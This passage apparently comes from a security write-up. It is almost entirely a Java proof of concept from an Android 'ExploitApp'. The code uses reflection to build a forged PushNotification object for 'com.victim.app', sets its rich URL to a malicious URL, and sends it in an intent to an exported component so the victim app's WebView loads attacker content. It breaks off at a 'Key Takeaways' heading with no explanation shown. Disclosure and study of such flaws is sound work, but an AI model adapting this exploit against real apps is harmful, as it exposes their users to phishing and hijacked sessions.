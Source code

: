```java
            @Override
            public void onClick(View v) {
                triggerWebview();
            }
        });
    }

    private void triggerWebview() {
        try {
            Intent intent = new Intent(ON_NOTIFICATION_OPENED_ACTION);
            intent.setComponent(new ComponentName("com.victim.app", "com.victim.app.app.base.TransitionFlowManager"));

            ClassLoader targetClassLoader = getForeignClassLoader("com.victim.app");
            Class<?> pushNotificationClass = targetClassLoader.loadClass("com.victim.app.managers.notifications.PushNotification");

            // Get the Builder class from PushNotification
            Class<?> builderClass = pushNotificationClass.getDeclaredClasses()[0];

            Constructor<?> builderConstructor = builderClass.getConstructor();
            Object builderInstance = builderConstructor.newInstance();

            // Build the PushNotification object using reflection
            Method idMethod = builderClass.getDeclaredMethod("id", String.class);
            idMethod.invoke(builderInstance, "123");

            Method richUrlMethod = builderClass.getDeclaredMethod("richUrl", String.class);
            richUrlMethod.invoke(builderInstance, MY_MALICIOUS_URL);

            Method buildMethod = builderClass.getDeclaredMethod("build");
            Object pushNotification = buildMethod.invoke(builderInstance);

            // Attach the PushNotification to the intent
            Bundle extras = new Bundle();
            extras.putSerializable(EXTRA_NOTIFICATION, (java.io.Serializable) pushNotification);
            intent.putExtras(extras);

            startActivity(intent);

        } catch (Exception e) {
            Log.e("ExploitApp", "Failed to send malicious intent: " + e.getMessage());
        }
    }
}
```
---

### Key Takeaways

---